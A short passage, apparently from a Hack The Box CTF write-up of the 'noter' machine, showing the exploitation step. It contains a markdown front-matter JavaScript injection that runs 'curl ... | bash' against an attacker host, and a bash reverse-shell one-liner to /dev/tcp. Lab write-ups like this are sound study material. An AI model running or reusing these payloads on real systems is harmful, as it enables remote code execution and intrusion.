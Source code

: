 <center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/LINUX/noter/assets/images/12.png" >
</center>

## Exploiting the vulnerability

```shell
┌─[htb-enum0re☺pwnbox-base]─[~]
└──╼ $cat shell.md
---js\n((require("child_process")).execSync("curl 10.10.14.9:8000/RCE | bash"))\n---RCE
┌─[htb-enum0re☺pwnbox-base]─[~]
└──╼ $cat RCE
bash -i >& /dev/tcp/10.10.14.9/443 0>&1
```

<center>